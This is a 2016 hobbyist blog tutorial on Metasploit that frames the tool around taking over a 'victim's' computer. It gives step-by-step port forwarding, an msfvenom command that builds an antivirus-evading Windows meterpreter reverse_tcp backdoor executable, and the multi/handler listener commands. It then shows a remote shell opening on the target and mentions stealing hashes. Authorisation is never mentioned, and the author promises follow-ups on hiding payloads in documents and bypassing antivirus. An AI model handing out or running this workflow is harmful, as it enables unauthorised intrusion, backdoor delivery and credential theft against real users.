 ```yaml
---
layout:     post
comments:   true
title:      "Beginner's Guide to Metasploit"
subtitle:   "Super l33t h4x0r time!"
date:       2016-03-27 12:00:00
author:     "ex0dus"
header-img: "img/PostBG/post-bg-06.png"
---
```

Due to popular request, I'm going to teach Metasploit.

**Metasploit** is a pen testing framework suite written in the Ruby programming language. People use Metasploit to commonly gain access to a computer, through exploits, which find flaws, whether in the system or software the victim has and allows you to gain access.

It is pretty complicated, so I will be covering some of the essentials in a simple tutorial. We will set up a basic so-called "virus". Technically it’s a payload that acts as a backdoor, so that once the user executes it, you get ahold of their computer.

This tutorial will mostly base around the premise that your target is outside your network, so there is going to be a little configuration.

## Installing

If you are on Kali Linux, which is recommended, metasploit is automatically installed, as I have said before. Simply type **"msfconsole"** to get started. I recommend using the Linux version. The Windows version is pretty limited and is kind of shit. If you are on Ubuntu like me, and want to install it, good luck. This was probably one of the hardest things I've ever done. You might as well use Kali on VM if you can't install it. But if you are hardcore, click [**Here**](http://www.darkoperator.com/installing-metasploit-in-ubunt/)

## Getting Started

1\. Type "ifconfig" in your terminal. Obtain your inet address, most likely in wlan0 or eth0 (it should be 192.168.x.x for most). This is your computers given address on your network. ![](/img/BeginnersGuideToMetasploit/ifconfig.png) 2\. Open your router settings. This is achieved by typing 192.168.1.1 in your browser (search it up if it isn't it. Every router brand is different. I use a Verizon router). ![](/img/BeginnersGuideToMetasploit/verizonlogin.png) 3\. Find out where port forwarding is. There may be a tab called “Firewall” you might have to click. Again, all router brands are different in terms of settings and configuration, so you might have to go on the Internet and search it up. For my Verizon router, there is a tab called “Firewall”. After clicking on it, I get routed to another page, where this a tab on the side called “Port Forwarding”. ![](/img/BeginnersGuideToMetasploit/firewallportfor.png) 4\. Enter the IP address you had previously, the one for your computer. Port forward port “4444”. What will happen is, when you receive a request for a connection to your public IP address through port 4444, it will be rerouted to your local IP. It’s kind of like a map. Port forwarding is me building a shortcut. 5\. In your terminal, we will make our payload. Type:

    msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 5 -b ‘\x00′ LHOST=[your PUBLIC IP] LPORT=4444 -f exe > payload.exe

Let’s break this down. **MSFvenom** is the payload creation script (it was originally msfpayload). **–P** is the parameter to pass that signifies what kind of payload we are creating. In this case, we are creating a **windows/meterpreter/reverse_tcp** one. This kind of payload will create a shell called Meterpreter, which is like the Command Line, but for hackers. I’ll get to it later. **–E x86/shikata_ga_nai** is the parameter for encoding the payload using shikata_ga_nai, where we mask it so that the victim’s anti-virus won’t detect the payload, since it is technically, a virus. Encoding a payload using MSFvenom isn’t really effective anymore, but it is for the sake of demonstration. Don’t worry, there are ways to mask payloads and bypass AV. I will talk about it later. **–I 5** means we encode it 5 times. **–B ‘x/00’** has something to do with shellcode, and we won’t really get into it. Now however the next part, LHOST and LPORT is important. You will enter your public IP address in LHOST. Public, not the 192.168.x.x one. Your LPORT will be 4444\. This means that once the victim opens the payload, a connection will be sent to your public IP, and it will forwarded to your local IP (the 192.168.x.x one), where a listener will be set up (we will do this in the next 2 steps). 6\. After you press enter, the payload will generate. Open another terminal and type “msfconsole”. You will see an interpreter-style-thingy like this: ![](/img/BeginnersGuideToMetasploit/msfcli.png) 7\. After your payload is generated, it should be in your /root/ directory. Leave it where it is for now. In your terminal with Metasploit open, type

    msf > use exploit/multi/handler

8\. This is the handler that will be set up to handle the incoming request from the victim's computer. Now type in:

    msf exploit(handler) > set LHOST=[your LOCAL IP here]

9\. We will establish a listener that will listen for the request. It will be hosted on your computer, hence the LOCAL IP.

<pre>**msf exploit(handler) >**set LPORT=4444</pre>

10\. This establishes the port. Now type:

<pre>**msf exploit(handler) >**show options</pre>

11\. Everything should be set and in place. Now type run:

    msf exploit(handler) >run
    12\. You will see something like:
    [*]Started reverse handler on 192.168.x.x:4444
    [*]Starting the payload handler…

13\. You have set up your handler and listener! Now in order to get a Meterpreter shell, a victim needs to open your payload. Doing so, a connection will be sent back, and your listener will intercept the connection and the handler will start a meterpreter session, which looks like:

<pre>**meterpreter>**</pre>

14\. Congrats! You learnt the basics of Metasploit. Now you may ask, what to do with meterpreter? Well, here’s an example:

    meterpreter> shell
    Process 2314 created
    Channel 1 created
    Microsoft Windows [Version 6.1.7601]
    Copyright (c) 2009 Microsoft Corporation. All rights reserved.
    C:\Windows\System32>

This establishes a Windows Command Prompt shell and now you have access over the victim's computer! You can do much more with Meterpreter. You can take a screeshot of the victim's computer, see system processes, steal hash, etc. Here’s a list: [**Null Byte**](http://null-byte.wonderhowto.com/how-to/hack-like-pro-ultimate-command-cheat-sheet-for-metasploits-meterpreter-0149146/)

Well that is all. This article was probably a little dull, but I will soon elaborate on this tutorial. I will talk about exploitation through obfuscating payloads in PDF files, text documents, videos, etc. I will also talk about bypassing AV (anti-virus), since many modern day AVs detect these Metasploit payloads as viruses and backdoors.

## I have set up a Contact Form in the **Contact** section of this site! Please do not hesistate to use it if you have any inquiries
